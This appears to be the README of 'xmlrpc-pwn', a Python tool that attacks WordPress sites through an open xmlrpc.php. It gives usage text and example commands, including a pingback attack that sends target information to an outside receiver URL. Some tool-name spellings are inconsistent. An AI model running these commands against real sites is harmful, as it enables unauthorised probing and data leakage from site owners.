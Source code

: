 `xmlrcp-pwn` is a lightweight python script with zero dependencies that can try multiple attacks against a wordpress when the **xmlrpc.php** is open to interact with. It is important to emphasize that just because it is open for interaction does not mean that it is vulnerable.

# Usage

```bash
usage: main.py [-h] [-d DOMAIN] [-p PINGBACK] [-v]

Interact with xmlrpc.php file on wordpress site
EXAMPLES:
        xmlrpc-pwn -d example.com
        xmlprc-pwn --domain example.com --pingback https://receiver.com:8080
        xmlrc-pwn -d example.es --check-only

options:
  -h,          --help            Show this help message and exit
  -d DOMAIN,   --domain          The target domain you want to interact
  -p PINGBACK, --pingback        Use a pingback attack to retrieve information from the target to your receiver
  -c,          --check-only      Just run a simple check to confirm it is open
  -v,          --version         Show program's version number and exit

Wordpress is leak, insecure and ugly
```

# Examples

## Do a simple check to confirm it is open

```bash
xmlrpc-pwn -d example.com --check-only
```

## Execute a pingback attack to retrieve target information

```bash
xmlrpc-pwn -d example.com --pingback https://www.toptal.com/developers/postbin/b/1682676864221-3461969071067
```
